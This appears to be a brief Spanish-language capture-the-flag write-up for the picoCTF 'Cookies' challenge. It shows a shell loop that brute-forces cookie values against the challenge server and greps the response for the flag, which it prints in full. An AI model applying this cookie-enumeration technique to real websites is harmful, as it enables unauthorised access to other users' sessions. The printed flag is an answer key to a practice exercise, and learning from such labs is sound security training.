 Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:17781/](http://mercury.picoctf.net:17781/)
___________
## Solucion

AideFrayre-picoctf@webshell:~$ for i in {1..30}; do curl -s  http://mercury.picoctf.net:17781/check -H "Cookie: name=$i";done |grep 'picoCTF{'
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}</code></p>
AideFrayre-picoctf@webshell:~$ 

